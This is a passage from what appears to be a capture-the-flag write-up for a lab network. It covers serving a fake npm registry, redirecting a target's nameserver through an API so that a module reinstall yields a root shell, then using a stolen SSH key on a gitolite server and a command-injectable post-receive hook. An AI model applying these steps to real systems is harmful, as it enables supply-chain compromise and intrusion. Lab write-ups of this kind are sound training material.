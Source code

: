 the final folder structure should be like

```
WEBSERVER ROOT
| express/
    | index.html
    | express-4.21.2.tgz
```

10. start a webserver on port 4873 in the 'registry' root
11. update the nameserver for 172.16.1.2 with `curl -X POST -H "Authorization: Bearer $auth" -d "host=172.16.1.2&nameserver=10.10.174.209" 172.16.1.2:3000/modify-resolv`
12. finally run reinstall node command: `curl -X POST -H "Authorization: Bearer $auth" -d "host=172.16.1.2&service=admdev" 172.16.1.2:3000/reinstall-node-modules`

all going well you will now have a shell as root on 172.16.1.2. 

note that if you look at the webserver logs or especially the npm logs (if you have access) you will see a lot of failures around things like checking for audit info, looking up advisories etc (as our webserver provides none of this) - this doesn't effect the exploit. If you are having trouble, use 172.16.1.3 and the bfc uat site as a test, as this will affect the machine you have compromised - npm is installed and you can run npm install locally to see whats what.

#### git hooks to final server 

with the key used by admint, `/app/admint/root.key` you can enumerate the 172.16.1.1 git server again and will find you have RW on admdev:

```bash
9aa12a31f86c:/app/admint# ssh -i root.key git@172.16.1.1
PTY allocation request failed on channel 0
hello developer, this is git@tryhackme-2404 running gitolite3 3.6.12-1 (Debian) on git 2.43.0

 R W    admdev
 R      admint
 R      bfcthehubint
 R      bfcthehubuat
 R      gitolite-admin
 R      hooks_wip
 R      underconstruction
Connection to 172.16.1.1 closed.
```

hooks_wip also looks interesting. by cloning it with `proxychains git clone git@172.16.1.1:hooks_wip` (after setting the git ssh command to use the root key) it contains a post-receive hook template that we can assume is used for the other repos:

```bash
#!/bin/bash

LOGFILE="/home/git/gitolite-commit-messages.log"

while read oldrev newrev refname; do
    if [ "$newrev" != "0000000000000000000000000000000000000000" ]; then
        # Get the commit message
        commit_message=$(git --git-dir="$PWD" log -1 --format=%s "$newrev")
        bash -c "echo $(date) - Ref: $refname - Commit: $commit_message >> $LOGFILE"
    else
        # Log branch deletion
        bash -c "echo $(date) - Ref: $refname - Branch deleted >> $LOGFILE"
    fi
done
```
